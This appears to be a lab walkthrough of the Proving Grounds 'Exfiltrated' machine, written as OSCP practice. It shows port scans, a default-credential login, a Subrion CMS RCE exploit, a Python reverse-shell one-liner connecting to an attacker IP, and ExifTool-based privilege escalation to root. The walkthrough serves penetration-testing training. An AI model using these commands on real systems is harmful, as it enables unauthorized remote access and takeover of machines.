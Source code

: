 ```yaml
---
title: Proving Grounds - Exfiltrated
date: 2022-08-08 12:37:00 -500 
categories: [Proving Grounds]
tags: [oscp,linux]
---
```


# Exfiltrated Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|192.168.x.163|Exfiltrated|Linux|

## Path to Exploitation
This is a Linux machine running an HTTP server and has SSH available. We will identify the vulnerable web-application and using a publicly available exploit and default credentials we obtain a web-shell and get command execution. Once on the machine we identify a scheduled script that takes uploaded images and executes the exiftools command on them. We can leverage this by uploading a .jpg file with an embedded reverse shell payload.

# Enumeration

## Full Port Scan

```bash
$ nmap 192.168.109.163 -p- -oA Exfiltrated/nmap/full-port --open -Pn -vv
```

Which Resulted in:

|PORT|SERVICE|
|----|-------|
|22|ssh|
|80|http|

## Service Scan

```bash
$ nmap 192.168.109.163 -p 22,80 -sC -sV -oA Exfiltrated/nmap/service-scan -Pn
```

Which Resulted in:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|22|ssh|8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)|
|80|http|httpd 2.4.41 ((Ubuntu))|

# Website Enumeration

![Web Application](/assets/ProvingGrounds/Exfiltarted/site-landing-page.png "Site Page")

We see the server is running Subrion CMS 4.2.1 which has an [Authenticated RCE](https://www.exploit-db.com/exploits/49876). We can guess the default credentials admin:admin and see that we can now login to the application

![Valid Credentials](/assets/ProvingGrounds/Exfiltarted/valid-creds.png "Valid Credentials")

We can now use the exploit and supply it the credentials for the application

```bash
$ python3 exploit.py -u http://192.168.109.163/panel/ -l admin -p admin 
```

And we see that we have command execution on the box

![Command Execution](/assets/ProvingGrounds/Exfiltarted/command-exec.png "Confirmed Command Exec")

We can get a reverse shell by setting up a listener and running the following python command
```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.109",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

# Privilege Escalation
We inspect the content of /opt/image-exif.sh and see the following code.

![Script Content](/assets/ProvingGrounds/Exfiltarted/script-content.png "Script Content")

We see that the code is taking images from the site's upload directory and running exiftools on it. We can inject a malicious command into a jpg file attempt to get a reverse shell when exfitools executes. We can use the exploit located [here](https://www.exploit-db.com/exploits/50911) to generate our malicious jpg.

```bash
$ python3 exif-exploit.py -s 192.168.49.109 443
```

![Exploit](/assets/ProvingGrounds/Exfiltarted/exploit.png "Exploit")

We now upload our image to the site's upload directory, setup a listener and wait to catch the shell

![Root Shell](/assets/ProvingGrounds/Exfiltarted/root-shell.png "Root Shell")

And we now have a root shell

